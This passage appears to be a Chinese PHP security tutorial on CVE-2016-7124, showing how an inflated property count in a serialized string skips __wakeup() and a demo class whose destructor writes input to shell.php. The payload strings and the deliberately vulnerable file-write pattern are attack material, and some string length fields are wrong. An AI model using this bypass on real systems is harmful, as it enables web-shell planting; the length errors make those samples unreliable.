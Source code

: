 

## 绕过魔法函数的反序列化漏洞

漏洞编号CVE-2016-7124

### 魔法函数**sleep() 和 **wakeup()

**php文档中定义__wakeup():**

unserialize() 执行时会检查是否存在一个 **wakeup() 方法。如果存在，则会先调用 **wakeup 方法，预先准备对象需要的资源。**wakeup()经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。**sleep()则相反，是用在序列化一个对象时被调用

[![](https://i.loli.net/2018/09/06/5b90f6d1d8152.png)](https://i.loli.net/2018/09/06/5b90f6d1d8152.png)

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%89%96%E6%9E%90"></a>漏洞剖析

PHP5 &lt; 5.6.25<br>
PHP7 &lt; 7.0.10<br>
PHP官方给了示例：[https://bugs.php.net/bug.php?id=72663](https://bugs.php.net/bug.php?id=72663)<br>
这个漏洞核心：**序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**比如下面这个类构造：

```
class hpdoger`{`
    public $a = 'nice to meet u';
    `}`
```

序列化这个类得到的结果：

```
O:7:"hpdoger":1:`{`s:1:"a";s:6:"nice to meet u";`}`
```

简单解释一下这个序列化字符串：<br>
O代表结构类型为：类，7表示类名长度，接着是类名、属性（成员）个数<br>
大括号内分别是：属性名类型、长度、名称；值类型、长度、值

正常情况下，反序列化一个类得到的结果：<br>[![](https://i.loli.net/2018/09/06/5b90f7f9ae0d0.jpg)](https://i.loli.net/2018/09/06/5b90f7f9ae0d0.jpg)

析构方法和__wakeup都能够执行

如果我们把传入的序列化字符串的属性个数更改成大于1的任何数

```
O:7:"hpdoger":2:`{`s:1:"a";s:6:"u know";`}`
```

得到的结果如图，__wakeup没有被执行，但是执行了析构函数<br>[![](https://i.loli.net/2018/09/06/5b90f8ecc8319.png)](https://i.loli.net/2018/09/06/5b90f8ecc8319.png)

假如我们的demo是这样的呢?

```
&lt;?php
class A`{`
    var $a = "test";
    function __destruct()`{`
        $fp = fopen("D:\phpStudy\PHPTutorial\WWW\test\shell.php","w");
        fputs($fp,$this-&gt;a);
        fclose($fp);
    `}`
    function __wakeup()
        `{`
            foreach(get_object_vars($this) as $k =&gt; $v) `{`
                    $this-&gt;$k = null;
            `}`
        `}`
```